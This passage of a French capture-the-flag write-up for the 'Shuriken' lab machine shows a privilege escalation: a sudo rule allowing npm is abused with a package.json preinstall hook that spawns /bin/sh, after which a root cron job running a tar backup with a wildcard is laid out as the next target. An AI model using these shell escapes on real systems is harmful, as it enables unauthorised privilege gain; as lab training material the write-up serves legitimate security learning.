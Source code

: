 ```shellsession
www-data@shuriken:/tmp$ sudo -l
Matching Defaults entries for www-data on shuriken:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on shuriken:
    (server-management) NOPASSWD: /usr/bin/npm
```

L'une des entrées de [GTFObins](https://gtfobins.github.io/gtfobins/npm/) s'applique à `npm` :

```shellsession
www-data@shuriken:/tmp$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > ^CF/package.json
www-data@shuriken:/tmp$ mkdir yolo
www-data@shuriken:/tmp$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > yolo/package.json
www-data@shuriken:/tmp$ sudo -u server-management /usr/bin/npm -C yolo i

> @ preinstall /tmp/yolo
> /bin/sh

$ id
uid=1000(server-management) gid=1000(server-management) groups=1000(server-management),24(cdrom),30(dip),46(plugdev),116(lpadmin),122(sambashare)
```

On peut alors récupérer notre premier flag : `67528b07b382dfaa490f4dffc57dcdc0`

Il y a une tache crontab qui effectue une sauvegarde des fichiers de `server-management` :

```bash
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/2   * * * *   root    /var/opt/backupsrv.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Voici le code du script bash :

```bash
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files
```